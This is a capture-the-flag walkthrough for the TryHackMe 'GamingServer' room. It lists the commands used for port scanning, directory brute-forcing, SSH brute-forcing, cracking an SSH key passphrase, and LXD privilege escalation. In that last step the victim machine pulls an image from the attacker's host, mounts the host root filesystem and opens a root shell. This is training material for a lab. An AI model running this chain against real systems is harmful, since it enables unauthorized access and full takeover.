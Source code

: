 # GamingServer

**Room Link:** [https://tryhackme.com/room/gamingserver](https://tryhackme.com/room/gamingserver)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>









<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>









### SSH port 22

Tried bruteforcing ssh with johns username and the dictionary file we found but it didn't work

**Kali**

```
hydra -l john -P dict.lst ssh://$VICTIM
```



### TCP/80 - HTTP



<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>



### SSH port 22

After finding the key I bruteforced that with the dictionary list found

**Kali**

```
chmod 700 secretKey
/opt/john/ssh2john.py secretKey > id_john.txt
john --wordlist=/root/dict.lst id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i secretKey john@$VICTIM
Password: letmein
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



### Privilege Escalation&#x20;

Followed this link on lxd privilege escalation&#x20;

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp
wget http://10.10.73.204:81/alpine-v3.18-x86_64-20230712_1453.tar.gz
lxc image import ./alpine-v3.18-x86_64-20230712_1453.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

















































